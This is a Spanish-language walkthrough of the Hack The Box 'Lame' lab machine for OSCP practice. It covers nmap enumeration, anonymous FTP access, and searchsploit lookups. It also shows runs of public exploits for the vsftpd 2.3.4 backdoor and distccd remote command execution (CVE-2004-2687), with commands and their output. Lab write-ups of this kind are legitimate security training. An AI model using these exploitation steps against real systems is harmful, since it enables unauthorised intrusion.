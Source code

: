 ```yaml
---
layout: post
title: Hackthebox Lame - OSCP
category: htb,oscp,hackthebox
permalink: "blog/lame"
published: yes
---
```


Este post de la máquina Lame sera una intrusión utilizando metasploit y `sin metasploit`


# Enumeración

Primeramente  tenemos que  comprobar que la máquina este activa y para esto lanzaremos un ping a a  la máquina `ping -c 10.10.10.3`.

```console
root@rebcesp:/home/rebcesp/htb# ping -c 1 10.10.10.3
PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_seq=1 ttl=63 time=38.7 ms

--- 10.10.10.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 38.732/38.732/38.732/0.000 ms
```
Podemos ver que el ttl=63 pertenece a una máquina linux, podemos guiarnos a través de esta  tabla:

<img class="differentSize70" src="/assets/img/ttlTabla.png" alt="Foto1" style="margin:auto; display:block;">

Vamos a proceder a enumerar los puertos `TCP`, utilizando la siguiente sintaxis de nmap:
`nmap -p- -sS --min-rate 5000 --open -T5 -vvv -Pn -n 10.10.10.3`

```console
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack ttl 63
22/tcp   open  ssh          syn-ack ttl 63
139/tcp  open  netbios-ssn  syn-ack ttl 63
445/tcp  open  microsoft-ds syn-ack ttl 63
3632/tcp open  distccd      syn-ack ttl 63
```

Ya que tenemos los puertos, vamos a buscar las versiones de cada uno de ellos y analizarlos para ver si alguno es explotable, lo guardaremos en formato nmap con el parametro -oN targeted para después trabajar con expresiones regulares.

`nmap -sC -sV -p21,22,139,445,3632 -oN targeted` 

```console
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.13
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3d00h57m03s, deviation: 2h49m45s, median: -3d02h57m06s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-05-07T04:04:28-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```
## Expresión regular -oN targetd

```console
root@rebcesp:/home/rebcesp/htb/Lame/nmap# cat targeted | grep -oP '\d{1,5}/tcp.*'
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```



Intentaremos acceder por el protocolo FTP que se encuentra en el puerto 21, y nos detalla que el acceso al login es `Anonymous`, esto significa que no requiere de contraseña, pero al acceder no encontramos ningun directorio es decir esta `vacío`, entonces lo descartamos y continuamos analizando los siguientes puertos.

EL comando utilizado sería este

```console
root@rebcesp:/home/rebcesp/htb/Lame/nmap# ftp 10.10.10.3 
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:rebcesp): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```
No nos olvidemos que puerto 21/tcp FTP tiene la version `vsftpd 2.3.4` buscaremos algun exploit para acceder manualmente sin usar `metasploit`. Lo buscamos rápidamente con searchsploit

```console
root@rebcesp:/home/rebcesp/htb/Lame/nmap# searchsploit vsftpd 2.3.4
--------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                 |  Path
                                                               | (/usr/share/exploitdb/)
--------------------------------------------------------------- ----------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)         | exploits/unix/remote/17491.rb
--------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
Buscamos un exploit en algun repositorio de github y encontramos algunos de ellos que utilizamos , la  vulnerabilidad de esta versión se basa en una `sonrisa :)` si lees el código del exploit podras darte cuenta que se intenta aunteticar con una carita feliz. De todos modos al lanzar el exploit al target no funciona.
Se queda pensando...

```console
root@rebcesp:/home/rebcesp/htb/Lame/exploits# python3 vsftpd_234_exploit.py 10.10.10.3 21 whoami
[*] Attempting to trigger backdoor...
[+] Triggered backdoor
[*] Attempting to connect to backdoor...
```
Al comprobar que no podemos acceder  por el puerto 21 con el exploit utilizado, probaremos con el puerto 3632, que esta utilizando un servicio distccd:

> Distcc es un programa diseñado para distribuir tareas de compilación a través de la red hacia máquinas participantes. Consiste en un servidor, distccd y un programa cliente, distcc. Distcc puede trabajar de forma transparente con ccache, Portage y Automake realizando una sencilla configuración. 

Vamos a usar la misma  metodología buscando en `searchsploit` algún exploit para  distccd y luego proceder a buscarlo el exploit en algun repositorio de  github u otra plataforma.

```console
root@rebcesp:/home/rebcesp/htb/Lame/exploits# searchsploit distcc
--------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                 |  Path
                                                               | (/usr/share/exploitdb/)
--------------------------------------------------------------- ----------------------------------------
DistCC Daemon - Command Execution (Metasploit)                 | exploits/multiple/remote/9915.rb
--------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
Encontramos el exploit en python `distccd_rce_CVE-2004-2687.py`.

Si ejecutamos comandos arbitrarios por ejemplo `ifconfig` comprobamos que estamos en la máquina Lame pero con usuario de deamon, para  saber esto podrías ejecutar en vez de ifconfig `whoami`.

